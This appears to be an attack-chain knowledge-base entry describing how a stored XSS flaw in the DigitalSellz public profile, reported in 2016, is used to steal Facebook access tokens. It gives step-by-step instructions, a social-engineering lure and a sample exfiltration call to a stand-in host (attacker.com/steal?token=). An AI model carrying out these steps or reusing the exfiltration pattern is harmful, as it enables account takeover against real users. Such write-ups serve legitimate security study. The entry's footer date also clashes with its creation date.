

---
tags:
  - xss
  - stored-xss
  - facebook-token-theft
  - account-takeover
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Inject-Stored-XSS-Payload-in-Public-Profile]]'
  - '[[procedures/Steal-Facebook-Access-Token-via-XSS]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
description: >-
  A stored Cross-site Scripting (XSS) vulnerability in the DigitalSellz public
  profile feature bypasses protections, allowing attackers to inject malicious
  JavaScript that executes when users view the profile, leading to the theft of
  Facebook access tokens for unauthorized account access.
skill_level: intermediate
impact_level: high
id: 19647061-a40a-4ecf-a808-0aec54777721
created_at: '2025-12-14T03:16:14.460Z'
updated_at: '2025-12-14T03:16:14.460Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS in DigitalSellz Public Profile to Steal Facebook Access Tokens

Multi-stage attack chain demonstrating a complete attack workflow exploiting a stored XSS vulnerability in the DigitalSellz application's public profile feature. Discovered by robin_linus on October 11, 2016, this vulnerability bypasses the app's XSS protections, enabling persistent script injection. When authenticated users view the attacker's public profile, the malicious JavaScript executes in their browser context, accessing and exfiltrating Facebook access tokens stored due to the app's Facebook integration. This grants attackers unauthorized access to victims' Facebook accounts, potentially leading to data theft, impersonation, or further propagation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools for testing)

### Target Environment

- Web platform
- DigitalSellz application with public profile feature
- Facebook integration for authentication
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Attacker must have ability to create a user account on DigitalSellz
- Network access to the application (publicly accessible)
- No prior credentials needed beyond registration

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload into Public Profile
procedure: [[procedures/Inject-Stored-XSS-Payload-in-Public-Profile]]

**Objective**: Register an account and insert a malicious JavaScript payload into the public profile field, bypassing the application's XSS protections to store the script persistently.

**Instructions**: Navigate to the DigitalSellz registration page and create a new account. Once logged in, access the public profile editing interface. In the profile description or bio field, input a payload that evades the existing filters, such as using event handlers or encoded scripts (e.g., `` adapted for token theft). Save the profile. The payload is now stored server-side and will render on any view of this public profile.

**Expected Output**: Profile saves without error, and testing by viewing the profile in an incognito window shows script execution (e.g., alert pops up).

**Success Indicators**:
- Payload persists after page refresh
- Script executes when profile is viewed by another user session

### Step 2: Execute Payload and Exfiltrate Facebook Token
procedure: [[procedures/Steal-Facebook-Access-Token-via-XSS]]

**Objective**: Lure or wait for a victim to view the attacker's public profile, triggering the XSS payload to execute in the victim's browser and steal their Facebook access token.

**Instructions**: Share the public profile URL via social engineering (e.g., email, social media) or rely on organic views if the profile is discoverable. When the victim, who is authenticated with Facebook on DigitalSellz, loads the profile, the injected script runs. The script accesses the Facebook token (likely stored in localStorage or as a cookie from the app's Facebook SDK integration) and sends it to the attacker's controlled server (e.g., via XMLHttpRequest to http://attacker.com/steal?token= + encodeURIComponent(token)).

**Expected Output**: Attacker's server logs receive the stolen token, which can be verified by attempting to use it for Facebook API calls (e.g., via curl to graph.facebook.com).

**Success Indicators**:
- Victim's browser sends token to attacker endpoint
- Token validates against Facebook (e.g., fetches user data without auth)

## Attack Chain Summary

### Key Achievements

1. Bypassed XSS protections to store malicious script in public profile
2. Executed JavaScript in victims' browsers upon profile view
3. Stolen Facebook access tokens enable full account compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
